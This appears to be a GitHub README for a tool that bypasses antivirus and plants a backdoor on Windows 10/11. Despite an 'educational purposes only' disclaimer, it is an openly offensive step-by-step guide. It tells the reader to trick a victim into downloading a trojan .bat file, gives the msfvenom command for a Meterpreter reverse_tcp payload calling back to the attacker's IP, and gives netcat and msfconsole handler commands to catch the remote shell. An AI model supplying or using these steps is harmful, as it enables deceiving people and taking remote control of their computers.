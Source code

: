 # Windows 11/10 Bypass AV & Insert Backdoor

#### **For educational purposes only!**
#### **Social Engineering is required!**
#### **Requires victim to have Admin Privs**

## Steps to Compromise:

1. **Setup Trojan Horse.** 
2. **Get creative and get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
3. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>

# Demonstration Video
Insert video in markdown!
